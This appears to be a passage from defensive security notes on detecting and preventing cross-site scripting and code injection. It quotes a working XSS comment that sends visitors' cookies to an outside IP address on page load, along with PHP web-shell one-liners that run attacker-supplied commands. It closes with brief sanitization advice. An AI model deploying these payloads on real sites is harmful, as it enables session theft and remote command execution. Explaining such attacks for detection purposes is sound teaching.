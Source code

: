 We might see a weird amount of requests being sent to an internal "server" we don't recognize. This could be a clear indication of cross-site scripting.
Essentially, the attacker managed to inject code into our web servers, and now, when other users perform specific tasks, they might be triggering the code that was injected. This may result in cookie/token stealing.
For instance, check the following "comment" a user submitted.
```html
<script>
	window.addEventListener("load", function() {
		const url = "http://192.168.0.19:5555";
		const params = "cookie=" + encodeURIComponent(document.cookie);
		const request = new XMLHttpRequest();
		request.open("GET", url + "?" + params);
		request.send();
	});
</script>
```

Funny looking comment. This is sending the user's cookie to an unknown IP address.
The attackers might also try to get C2 through php.
```php
<?php system($_GET['cmd']); ?>
<?php echo `whoami` ?>
```

##### Preventing XSS and Code Injection
To prevent these after we detect them, do the following:
1. Sanitize and handle user input in an acceptable manner.
2. Do not interpret user input as code.
